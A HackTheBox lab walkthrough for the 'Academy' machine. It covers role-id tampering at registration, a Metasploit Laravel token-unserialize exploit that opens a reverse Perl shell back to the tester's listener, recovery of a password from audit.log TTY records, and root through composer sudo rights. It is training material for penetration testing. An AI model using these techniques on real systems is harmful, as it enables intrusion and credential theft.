 ```yaml
---
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Laravel, metasploit, CVE-2018-15133, CVE-2017-16894, reverse-shell, plain text password, Linux logging passwords, composer, GTFOBins, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd (port 80)

![Port 80](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/80.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/msf.png)

```bash
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

![reverse_shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

```bash
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
```

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

```bash
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)